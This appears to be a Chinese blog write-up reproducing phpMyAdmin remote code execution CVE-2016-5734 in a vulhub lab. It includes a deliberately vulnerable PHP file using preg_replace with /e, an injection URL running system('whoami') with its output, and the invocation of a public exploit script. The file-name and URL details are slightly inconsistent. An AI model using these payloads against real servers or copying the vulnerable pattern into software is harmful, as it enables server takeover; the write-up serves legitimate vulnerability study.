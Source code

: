 ```yaml
---
title: phpMyAdmin系列漏洞
author: jh2ng
cover: 'https://image.jh2ing.com/Alt%20text.png'
tags:
  - vulhub
categories:
  - 漏洞复现
abbrlink: 38924
date: 2023-06-04 17:10:00
---
```


### phpMyAdmin 4.0.x—4.6.2 远程代码执行漏洞（CVE-2016-5734）

#### 漏洞描述
phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。在其查找并替换字符串功能中，将用户输入的信息拼接进`preg_replace`函数第一个参数中。
在PHP5.4.7以前，`preg_replace`的第一个参数可以利用\0进行截断，并将正则模式修改为e。众所周知，e模式的正则支持执行代码，此时将可构造一个任意代码执行漏洞。

#### 影响版本
- `4.0.10.16`之前`4.0.x`版本
- `4.4.15.7`之前`4.4.x`版本
- `4.6.3`之前`4.6.x`版本（实际上由于该版本要求PHP5.5+，所以无法复现本漏洞）


#### 漏洞复现
编辑一个`grep_replace.php`文件，内容如下：
```php
```php
<?php
    highlight_file(__FILE__);
    $raw = $_GET['raw'];
    $replace = $_GET['replace'];
    $text = $_GET['text'];

    $text = preg_replace('/'.$raw.'/e', $replace, $text);
?>
```
将该文件放置在网站的根目录下，访问`http://your-ip//preg_replace.php??raw=a&replace=system("whoami")&text=aaa`，即可看到执行结果：
```
<?php
    highlight_file(__FILE__);
    $raw = $_GET['raw'];
    $replace = $_GET['replace'];
    $text = $_GET['text'];

    $text = preg_replace('/'.$raw.'/e', $replace, $text);
?> desktop-e5nsaug\test desktop-e5nsaug\test desktop-e5nsaug\test
```

 访问`http://your-ip:8080`，即可看到phpMyAdmin的登录页面。使用`root`:`root`登录。
用此[POC脚本]('https://www.exploit-db.com/exploits/40185/') 来复现漏洞。
```shell
./cve-2016-5734.py -c 'system(id);' -u root -p root -d test http://your-ip:8080/
```
-d是已经可以写的数据库，-c是待执行的PHP语句，如果没有指定表名，这个POC会创建一个名为`prgpwn`的表。
```python
#!/usr/bin/env python

"""cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
CVE: CVE-2016-5734
Author: https://twitter.com/iamsecurity
```
